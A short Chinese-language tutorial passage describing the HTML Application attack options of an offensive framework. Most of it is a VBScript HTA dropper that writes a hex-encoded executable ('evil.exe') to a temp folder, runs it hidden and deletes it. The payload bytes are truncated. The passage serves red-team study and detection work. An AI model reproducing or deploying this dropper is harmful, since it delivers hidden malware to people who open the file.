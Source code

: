 ![HTA 组成部分.png](assets/1708583825-84c186639e15725385514fdc6d346418.png)

HTML Application 菜单有三个方法：

-   Executable
-   PowerShell
-   VBA

Executable 生成内容是 VBScript 脚本，使用 Wscript.Shell 运行代码。

```bash
<script language="VBScript">
    Function var_func()
        var_shellcode = "4d5a90000300000004000000ffff0000b8000......"

        Dim var_obj
        Set var_obj = CreateObject("Scripting.FileSystemObject")
        Dim var_stream
        Dim var_tempdir
        Dim var_tempexe
        Dim var_basedir
        Set var_tempdir = var_obj.GetSpecialFolder(2)
        var_basedir = var_tempdir & "\" & var_obj.GetTempName()
        var_obj.CreateFolder(var_basedir)
        var_tempexe = var_basedir & "\" & "evil.exe"
        Set var_stream = var_obj.CreateTextFile(var_tempexe, true , false)
        For i = 1 to Len(var_shellcode) Step 2
            var_stream.Write Chr(CLng("&H" & Mid(var_shellcode,i,2)))
        Next
        var_stream.Close
        Dim var_shell
        Set var_shell = CreateObject("Wscript.Shell")
        var_shell.run var_tempexe, 0, true
        var_obj.DeleteFile(var_tempexe)
        var_obj.DeleteFolder(var_basedir)
    End Function

    var_func
    self.close
</script>
```
